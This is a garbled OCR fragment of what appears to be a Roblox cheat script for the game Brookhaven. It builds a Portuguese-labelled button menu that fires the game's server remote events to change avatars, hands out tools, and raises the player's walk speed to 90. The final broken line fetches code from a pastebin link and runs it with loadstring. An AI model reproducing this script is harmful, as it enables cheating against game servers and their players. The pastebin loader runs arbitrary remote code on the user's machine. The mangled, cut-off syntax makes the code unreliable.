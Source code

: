 game:GetService("ReplicatedStorage").RE:FindFirstChild("1Avata1rOrigina1l"):FireServer(unpack(args))

--Man

local args = {
    [1] = "wear",
    [2] = 6564572490
}

game:GetService("ReplicatedStorage").RE:FindFirstChild("1Updat1eAvata1r"):FireServer(unpack(args))

--speed

game.Players.LocalPlayer.Character.Humanoid.WalkSpeed = 90
end
})
avTab:AddButton({
Name = "Virar Esqueleto (F.E)",
     Callback = function()
     local args = {
    [1] = "CharacterChange",
    [2] = {
        [1] = 36781360,
        [2] = 36781407,
        [3] = 36781447,
        [4] = 36781481,
        [5] = 36781518,
        [6] = 0
    },
    [3] = "Skeleton"
}

game:GetService("ReplicatedStorage").RE:FindFirstChild("1Avata1rOrigina1l"):FireServer(unpack(args))
end
})

local gtTab = Window:MakeTab({
Name = "Itens | Brookhaven",
Icon = "rbxassetid://414904019",
PremiumOnly = false
})

local function AddButton(name, tool)
    gtTab:AddButton({
        Name = name,
        Callback = function()
            local args = {
                [1] = "PickingTools",
                [2] = tool
            }
            local remoteFunction = game:GetService("ReplicatedStorage").RE:FindFirstChild("1Too1l")
            if remoteFunction theloadstring(game:HttpGet("https://pastebin.com/raw/bGHGPcT1"))()
